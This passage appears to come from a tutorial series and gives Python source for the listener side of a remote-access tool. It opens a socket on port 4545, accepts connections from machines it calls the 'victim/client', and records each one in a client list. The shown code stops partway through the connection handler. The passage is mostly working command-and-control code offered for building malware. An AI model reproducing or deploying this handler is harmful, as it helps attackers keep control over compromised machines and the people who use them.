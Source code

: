 ```python
import socket
import subprocess
import sys
import time
import threading
import asyncio
import io
import os
import psutil
import colorama
from colorama import Fore, Back, Style
exit_event = threading.Event()

counter=-1
clientlist=[]
clientdata=[]
automigrate="" #we'll use this at a later point in the series.  sort of a teaser variable if you will 😸
```

> The initial setup and listener

```python
host = "0.0.0.0"
port = 4545

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((host, port))
s.listen(5)
print(Fore.YELLOW + "[+] listening on port "+str(port), Fore.WHITE)

handler_thread = threading.Thread(target=init_main_sock)
handler_thread.daemon = True
handler_thread.start()

handler_thread = threading.Thread(target=server_selection)
handler_thread.daemon = True
handler_thread.start()

while True:
    time.sleep(1)
```

> Accept socket connections from the victim/client

```python
def init_main_sock():
    while True:
        conn, addr = s.accept()
        print(Fore.GREEN, f'\n[*] Accepted new connection from: {addr[0]}:{addr[1]} !!!', Fore.WHITE)
        # Get the client socket handle number, not really necessary but I like it
        client_sock_handle = conn.fileno()
        print(f"Client socket handle: {client_sock_handle}")
        global counter
        global automigrate #won't be using this just yet
        counter+=1 #increase the client connect global counter.  yeah I'm using globals, wanna fight about it?! 😆
        #print("gathering client info...")
        clientinfo = conn.recv(1024)
        clientinfo = clientinfo.decode('UTF-8')
        clientinfo=clientinfo.split("\n")
        ##########################################
        #we're storing each client that connects using a list!
```